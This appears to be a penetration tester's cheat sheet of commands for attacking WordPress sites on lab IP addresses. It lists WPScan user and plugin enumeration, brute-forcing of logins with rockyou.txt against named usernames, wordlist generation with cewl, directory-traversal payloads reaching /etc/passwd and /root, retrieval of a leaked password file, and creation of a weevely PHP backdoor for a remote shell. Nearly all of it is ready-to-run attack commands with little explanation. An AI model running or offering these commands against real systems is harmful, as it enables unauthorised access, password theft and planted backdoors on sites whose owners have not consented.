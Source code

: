 ```

Note: Use 'grep -R backup_scripts 2>/dev/null' to look for cron related directories. 

# WPScan (vp = Vulnerable Plugins, vt = Vulnerable Themes, u = Users)
wpscan --url http://10.11.1.111
wpscan --url http://10.11.1.111 --enumerate vp

# aggressive plugin detection

wpscan --url http://192.168.221.167/ -e u,ap --plugins-detection aggressive
wpscan --url http://10.11.1.111 --enumerate vt
wpscan --url http://10.11.1.111 --enumerate u
wpscan -e --url https://url.com

# Generating password list from website

	cewl http://192.168.x.x > passwords.txt

# Password Cracking
	wpscan --url http://192.168.x.x:80 --passwords /home/kali/Documents/crack/rockyou.txt --usernames admin,tom,jerry

# Check For Users
	wpscan --url yourwebsite.com -e u

# Note: To Disable SSL cert check: Add in the --disable-tls-checks option
	wpscan --url https://192.168.200.148:12380/wordpress -e vp --api-token YOUR_TOKEN --disable-tls-checks	

# Scanning with no API key:
	wpscan --url http://192.168.50.244 --enumerate p --plugins-detection aggressive -o outputfile

# Cracking multiple user passwords over HTTPS

wpscan --url https://192.168.200.148:12380/blogblog/wp-login.php --passwords ../crack/rockyou.txt --disable-tls-checks --usernames john,elly,garry,peter,heather,barry,harry,scott,kathy,tim

# Wordpress Useful Directories

# Grabbing wp-content/plugins
	curl -k http://192.168.200.148:80/blogblog/wp-content/plugins/ | html2text

# Wordpress Directory Traversal example

	../../../../../../../../etc/passwd
	../../../../../../../../root

# Reading file over HTTPS, saving to a outfile

	curl -k https://192.168.200.148:12380/blogblog/wp-content/uploads/1831430954.jpeg --output etc_passwd.txt 

# reverse shell with weevely

	weevely generate password backdoor.php

# Transforming long text into one word per line
# Useful for password cracking

curl http://192.168.164.142/iamGaara | grep -oE '\w+' | sort -u -f | more

----

```